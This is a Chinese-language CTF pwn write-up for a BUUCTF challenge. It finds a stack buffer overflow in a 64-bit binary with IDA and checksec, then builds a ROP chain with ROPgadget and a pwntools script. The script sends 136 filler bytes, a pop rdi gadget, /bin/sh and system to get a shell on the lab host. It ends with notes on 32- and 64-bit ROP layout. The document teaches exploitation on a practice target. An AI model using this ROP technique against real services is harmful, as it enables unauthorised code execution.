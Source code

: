 # 题目

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744723755250-4700a8a5-f183-4977-b28a-73e587828687.png)

# 做法

开虚拟机checksec

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744723778191-3aa7f7a0-10f8-4c85-b775-9ae63fd06f64.png)

64位，没开栈保护

扔进IDA（64位），找到main，F5反编译

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744723824962-55829459-1575-40d5-ba27-461c78daec4b.png)

调用了vulnerable_function函数，其他没啥，点进去看看

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744723904139-4e6e5e09-f4ff-4fe2-925c-58088773f5ef.png)

还是没啥，点进缓冲区buf看看

完整代码如下，buf对应第9行buf

```
-0000000000000080 ; D/A/*   : change type (data/ascii/array)
-0000000000000080 ; N       : rename
-0000000000000080 ; U       : undefine
-0000000000000080 ; Use data definition commands to create local variables and function arguments.
-0000000000000080 ; Two special fields " r" and " s" represent return address and saved registers.
-0000000000000080 ; Frame size: 80; Saved regs: 8; Purge: 0
-0000000000000080 ;
-0000000000000080
-0000000000000080 buf             db ?
-000000000000007F                 db ? ; undefined
-000000000000007E                 db ? ; undefined
-000000000000007D                 db ? ; undefined
-000000000000007C                 db ? ; undefined
-000000000000007B                 db ? ; undefined
-000000000000007A                 db ? ; undefined
-0000000000000079                 db ? ; undefined
-0000000000000078                 db ? ; undefined
-0000000000000077                 db ? ; undefined
-0000000000000076                 db ? ; undefined
-0000000000000075                 db ? ; undefined
-0000000000000074                 db ? ; undefined
-0000000000000073                 db ? ; undefined
-0000000000000072                 db ? ; undefined
-0000000000000071                 db ? ; undefined
-0000000000000070                 db ? ; undefined
-000000000000006F                 db ? ; undefined
-000000000000006E                 db ? ; undefined
-000000000000006D                 db ? ; undefined
-000000000000006C                 db ? ; undefined
-000000000000006B                 db ? ; undefined
-000000000000006A                 db ? ; undefined
-0000000000000069                 db ? ; undefined
-0000000000000068                 db ? ; undefined
-0000000000000067                 db ? ; undefined
-0000000000000066                 db ? ; undefined
-0000000000000065                 db ? ; undefined
-0000000000000064                 db ? ; undefined
-0000000000000063                 db ? ; undefined
-0000000000000062                 db ? ; undefined
-0000000000000061                 db ? ; undefined
-0000000000000060                 db ? ; undefined
-000000000000005F                 db ? ; undefined
-000000000000005E                 db ? ; undefined
-000000000000005D                 db ? ; undefined
-000000000000005C                 db ? ; undefined
-000000000000005B                 db ? ; undefined
-000000000000005A                 db ? ; undefined
-0000000000000059                 db ? ; undefined
-0000000000000058                 db ? ; undefined
-0000000000000057                 db ? ; undefined
-0000000000000056                 db ? ; undefined
-0000000000000055                 db ? ; undefined
-0000000000000054                 db ? ; undefined
-0000000000000053                 db ? ; undefined
-0000000000000052                 db ? ; undefined
-0000000000000051                 db ? ; undefined
-0000000000000050                 db ? ; undefined
-000000000000004F                 db ? ; undefined
-000000000000004E                 db ? ; undefined
-000000000000004D                 db ? ; undefined
-000000000000004C                 db ? ; undefined
-000000000000004B                 db ? ; undefined
-000000000000004A                 db ? ; undefined
-0000000000000049                 db ? ; undefined
-0000000000000048                 db ? ; undefined
-0000000000000047                 db ? ; undefined
-0000000000000046                 db ? ; undefined
-0000000000000045                 db ? ; undefined
-0000000000000044                 db ? ; undefined
-0000000000000043                 db ? ; undefined
-0000000000000042                 db ? ; undefined
-0000000000000041                 db ? ; undefined
-0000000000000040                 db ? ; undefined
-000000000000003F                 db ? ; undefined
-000000000000003E                 db ? ; undefined
-000000000000003D                 db ? ; undefined
-000000000000003C                 db ? ; undefined
-000000000000003B                 db ? ; undefined
-000000000000003A                 db ? ; undefined
-0000000000000039                 db ? ; undefined
-0000000000000038                 db ? ; undefined
-0000000000000037                 db ? ; undefined
-0000000000000036                 db ? ; undefined
-0000000000000035                 db ? ; undefined
-0000000000000034                 db ? ; undefined
-0000000000000033                 db ? ; undefined
-0000000000000032                 db ? ; undefined
-0000000000000031                 db ? ; undefined
-0000000000000030                 db ? ; undefined
-000000000000002F                 db ? ; undefined
-000000000000002E                 db ? ; undefined
-000000000000002D                 db ? ; undefined
-000000000000002C                 db ? ; undefined
-000000000000002B                 db ? ; undefined
-000000000000002A                 db ? ; undefined
-0000000000000029                 db ? ; undefined
-0000000000000028                 db ? ; undefined
-0000000000000027                 db ? ; undefined
-0000000000000026                 db ? ; undefined
-0000000000000025                 db ? ; undefined
-0000000000000024                 db ? ; undefined
-0000000000000023                 db ? ; undefined
-0000000000000022                 db ? ; undefined
-0000000000000021                 db ? ; undefined
-0000000000000020                 db ? ; undefined
-000000000000001F                 db ? ; undefined
-000000000000001E                 db ? ; undefined
-000000000000001D                 db ? ; undefined
-000000000000001C                 db ? ; undefined
-000000000000001B                 db ? ; undefined
-000000000000001A                 db ? ; undefined
-0000000000000019                 db ? ; undefined
-0000000000000018                 db ? ; undefined
-0000000000000017                 db ? ; undefined
-0000000000000016                 db ? ; undefined
-0000000000000015                 db ? ; undefined
-0000000000000014                 db ? ; undefined
-0000000000000013                 db ? ; undefined
-0000000000000012                 db ? ; undefined
-0000000000000011                 db ? ; undefined
-0000000000000010                 db ? ; undefined
-000000000000000F                 db ? ; undefined
-000000000000000E                 db ? ; undefined
-000000000000000D                 db ? ; undefined
-000000000000000C                 db ? ; undefined
-000000000000000B                 db ? ; undefined
-000000000000000A                 db ? ; undefined
-0000000000000009                 db ? ; undefined
-0000000000000008                 db ? ; undefined
-0000000000000007                 db ? ; undefined
-0000000000000006                 db ? ; undefined
-0000000000000005                 db ? ; undefined
-0000000000000004                 db ? ; undefined
-0000000000000003                 db ? ; undefined
-0000000000000002                 db ? ; undefined
-0000000000000001                 db ? ; undefined
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
+0000000000000010
+0000000000000010 ; end of stack variables
```

栈溢出吗？先数一下吧，offset=8* 16+8=136

然后按Shift+F12找后门函数

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744724205437-db7d1e28-3226-4d37-a021-d1b7dc5f7a81.png)

找到一个system，一个/bin/sh，但是点进去没啥东西的

但是，有/bin/sh，然后我们再看到左边函数窗口有plt地址的system，我们瞬间想到可以用ROP来解这道题（不懂的看下面的《补充》）

然后因为这个文件是64位的，我们还需用ROPgadget来查询该文件的pop rdi地址

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744724665887-83c0f5f1-0bf8-4c40-b944-1a2327008e27.png)

```
ROPgadget --binary 文件  --only "pop|ret" | grep "rdi"（|后面的是筛选，不要|及后面的内容会弹出很多地址）
```

我们就开始编写exp

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744724851121-4703d111-a908-40ea-8520-9dde1d7aa4ce.png)

代码如下

```
# 导入所需模块
from pwn import *

#与靶机连接
r = remote("node5.buuoj.cn",29666)

#构建payload
payload = b'a' * 136 + p64(0x4006b3) + p64(0x600A90) + p64(0x4004C0)

#发送payload
r.sendline(payload)

#与靶机进行交互
r.interactive()           
```

常规，得出flag

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744724929076-7771efcc-d6ca-4882-a2f3-2b89ae047526.png)

# 补充

## （1）

32位的ROP是system函数在前，bin/sh函数在后，两函数中填入一个将来的返回地址，一般直接填0

## （2）

64位的ROP是bin/sh函数在前，system函数在后，两函数之前需要加上该文件的pop rdi地址

（用ROPgadget实现）

# 更新

于2025.4.15
